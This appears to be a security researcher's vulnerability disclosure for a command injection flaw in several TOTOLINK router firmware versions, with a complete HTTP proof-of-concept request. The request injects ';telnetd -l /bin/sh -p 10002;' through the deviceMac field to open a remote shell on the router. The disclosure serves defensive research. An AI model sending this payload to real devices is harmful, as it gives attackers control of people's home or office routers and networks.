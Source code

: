 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `global.so` binary:

In `setDeviceName` function,`deviceMac、deviceName` is directly passed by the attacker, so we can control the `deviceMac、deviceName` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

> Complete vulnerability verification on A830R product



## PoC

We set `deviceMac` as **';telnetd -l /bin/sh -p 10002;'** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/top.asp?timestamp=1645506134
Cookie: SESSION_ID=2:1645507767:2

{"topicurl":"setting/setDeviceName","deviceMac":"';telnetd -l /bin/sh -p 10002;'","deviceName":"pjqwudi"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

